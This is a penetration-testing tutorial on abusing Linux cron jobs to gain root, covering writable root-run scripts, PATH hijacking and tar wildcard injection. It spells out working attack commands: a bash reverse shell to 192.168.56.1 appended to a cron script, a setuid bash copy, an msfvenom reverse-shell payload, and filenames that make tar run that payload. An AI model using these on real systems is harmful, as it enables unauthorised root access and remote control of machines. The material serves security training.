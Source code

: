 # cron/crontab abuse

## Crontab <a href="#top" id="top"></a>

#### cron or crontab is a unix job scheduler tool. a best friend for system administrators and when misconfigured, the best chance for an attacker to gain root access. cron instructions usually consist of simple commands like a regular rsync command or a log cleaner one-liner script.but it gets real interesting when we find a path for a script to run as sudoer or root user in the crontab entries.if we are lucky enough to have an insecure file permission we can use it to escalate our privileges. In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. On a Linux system, the cron time based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

#### for example look for cron jobs with the following commands: `grep "CRON" /var/log/cron.log >>> works best for unprivileged users` `crontab -l` `ls -alh /var/spool/cron` `ls -al /etc/ | grep cron` `ls -al /etc/cron*` `cat /etc/cron*` `cat /etc/at.allow` `cat /etc/at.deny` `cat /etc/cron.allow` `cat /etc/cron.deny` `cat /etc/crontab` `cat /etc/anacrontab` `cat /var/spool/cron/crontabs/root`

![](../../../.gitbook/assets/cron1.png)

when we find a file we check the permissions and content

![](../../../.gitbook/assets/cron2.png)

greate, we have read/write access to a file that is executed by root user every minute.the rest is history: we add a reverse shell one-liner to the file and setup a listener and wait for cron to run the script.

#### `` `echo "bash -i >& /dev/tcp/192.168.56.1/8080 0>&1" >> /usr/local/bin/overwrite.sh` ``

![](../../../.gitbook/assets/cron3.png)

## PATH Environment Variable

\
The crontab PATH environment variable is by default set to /usr/bin:/bin The PATH variable can be overwritten in the crontab file. If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.\
\
View the contents of the system-wide crontab:\\

#### `cat /etc/crontab`

Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.\\

![](../../../.gitbook/assets/cron4.png)

so we have full access to our home path which is also the PATH variable in crontab so we can create a file with the same name in our home directory and the cronjob will execute it.

![](../../../.gitbook/assets/cron5.png)

we can also make a copy of /bin/bash to have a root shell without spawning a new tty:

#### \`\` `nano /home/user/overwrite.sh` `#!/bin/bash` `cp /bin/bash /tmp/rootbash` `chmod +s /tmp/rootbash`

#### Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell:

#### `/tmp/rootbash -p`

![](../../../.gitbook/assets/cron6.png)

## Wildcards

\
Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names. The following commands should show how this works:\
\\

#### `ls *` `touch ./-l` `ls *`

![](../../../.gitbook/assets/w1.png)

Filenames are not simply restricted to simple options like -h or --help.\
In fact we can create filenames that match complex options:\\

#### `--option=key=value`

[GTFOBins](https://gtfobins.github.io/#) can help determine whether a command has command line options which will be useful for our purposes.\
\
\
View the contents of the system-wide crontab:\\

#### `cat /etc/crontab`

![](../../../.gitbook/assets/w2.png)

View the contents of the /usr/local/bin/compress.sh file:\
\\

#### `$ cat /usr/local/bin/compress.sh` `#!/bin/sh` `cd /home/user` `tar czf /tmp/backup.tar.gz *`

Note that the tar command is run with a wildcard in the /home/user directory.\
GTFOBins shows that tar has command line options. which can be used to run other commands as part of a checkpoint feature.

![](../../../.gitbook/assets/w3.png)

Use msfvenom to create a reverse shell ELF payload:\\

#### `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=6666 -f elf -o shell.elf`

\
\
Copy the file to the /home/user directory on the remote host. Create two files in the /home/user directory:\
\\

#### `touch /home/user/--checkpoint=1` `touch /home/user/--checkpoint-action=exec=shell.elf`

Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught.

![](../../../.gitbook/assets/w4.png)
